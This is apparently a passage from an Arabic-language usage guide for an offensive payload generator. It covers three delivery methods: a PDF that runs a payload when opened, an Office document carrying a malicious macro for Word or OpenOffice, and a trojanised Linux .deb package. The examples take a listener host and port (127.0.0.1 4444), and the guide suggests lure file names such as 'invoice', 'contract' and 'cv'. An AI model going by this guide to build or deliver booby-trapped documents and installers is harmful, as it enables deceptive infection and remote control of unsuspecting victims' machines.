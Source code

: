 ### 5. 🔹 PDF مضمَّن (Embedded PDF)

**الغرض**: دمج payload في ملف PDF لاستغلال ثغرات قارئ PDF

**صيغة الإدخال**:
```
LHOST LPORT [OUTPUT_NAME] [BASE_PDF_PATH]
```

**مثال**:
```
127.0.0.1 4444 report /workspace/PE/original.pdf
```

**شرح المعاملات**:
- `BASE_PDF_PATH`: مسار ملف PDF أصلي (اختياري)
- إذا لم يُحدد، سيتم استخدام ملف افتراضي

**النتيجة**: ملف PDF يبدو عادياً لكنه ينفذ payload عند الفتح

---

### 6. 🔹 مستند Office

**الغرض**: إنشاء مستند Office يحتوي على ماكرو خبيث

**صيغة الإدخال**:
```
TARGET LHOST LPORT OUTPUT_NAME
```

**مثال**:
```
ms_word_windows 127.0.0.1 4444 invoice
```

**الأهداف المدعومة (TARGET)**:
- `ms_word_windows`: Microsoft Word على Windows
- `ms_word_mac`: Microsoft Word على macOS
- `openoffice_windows`: OpenOffice على Windows  
- `openoffice_linux`: OpenOffice على Linux

**أمثلة أسماء ملفات جذابة**:
- `invoice` - فاتورة
- `contract` - عقد
- `report` - تقرير
- `cv` - سيرة ذاتية

**النتيجة**: مستند Office يحتوي على ماكرو ضار

---

### 7. 🔹 حزمة .deb

**الغرض**: تلغيم حزمة تثبيت Linux (.deb)

**صيغة الإدخال**:
```
DEB_PATH LHOST LPORT OUTPUT_NAME
```
